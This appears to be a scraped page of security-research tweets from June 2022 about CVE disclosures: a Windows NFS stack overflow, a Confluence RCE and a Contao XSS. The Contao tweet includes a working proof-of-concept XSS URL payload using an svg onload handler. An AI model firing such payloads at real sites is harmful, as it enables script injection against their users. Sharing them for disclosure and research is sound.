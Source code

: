 
# thezdi
**https://twitter.com/thezdi/status/1534542758991511557 _at 2022-06-08, 14:27:58_**
<blockquote>
The latest blog from the Trend Micro Research Team looks at CVE-2022-26937: a Microsoft Windows NFS NLM Portmap stack buffer overflow that could lead to RCE. They provide root cause, source code walkthrough, and detection guidance. https://t.co/FhKhIeoG35
</blockquote>

* https://www.zerodayinitiative.com/blog/2022/6/7/cve-2022-26937-microsoft-windows-network-file-system-nlm-portmap-stack-buffer-overflow

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>155</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1534349304688967680 _at 2022-06-08, 01:39:15_**
<blockquote>
CVE-2022-1588 Contao 4.13.2 Cross-Site Scripting (XSS)
URL: https://localhost/contao/"&gt;&lt;svg//onload=alert('momika233')&gt;
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>141</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1534170095932821504 _at 2022-06-07, 13:47:09_**
<blockquote>
#CVE-2022-26134 Atlassian Confluence RCE 

boolean authenticate(String username, String password) https://t.co/rXZbj7pk70
</blockquote>

<table><tr>